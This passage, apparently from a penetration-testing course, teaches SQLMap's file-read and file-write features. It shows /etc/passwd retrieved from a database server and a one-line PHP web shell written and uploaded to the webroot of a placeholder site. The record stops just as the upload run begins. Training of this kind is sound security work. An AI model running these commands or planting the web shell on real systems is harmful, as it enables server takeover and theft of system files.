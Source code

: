 ```shell-session
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/
```

As we can see, SQLMap said`files saved` to a local file. We can`cat` the local file to see its content:


```shell-session
smoothment@htb[/htb]$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

We have successfully retrieved the remote file.

---

## Writing Local Files

When it comes to writing files to the hosting server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a Web Shell on the remote server, and hence get code execution and take over the server.

This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. For example, in MySql, the`--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the`INTO OUTFILE` SQL query, in addition to any local access needed on the host server, like the privilege to write in the directory we need.

Still, many web applications require the ability for DBMSes to write data into files, so it is worth testing whether we can write files to the remote server. To do that with SQLMap, we can use the`--file-write` and`--file-dest` options. First, let's prepare a basic PHP web shell and write it into a`shell.php` file:

```shell-session
smoothment@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, let's attempt to write this file on the remote server, in the`/var/www/html/` directory, the default server webroot for Apache. If we didn't know the server webroot, we will see how SQLMap can automatically find it.


```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

 ___
 __H__
 ___ ___[']_____ ___ ___ {1.4.11#stable}
|_ -| . [(] | .'| . |
|___|_ [,]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org


[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
```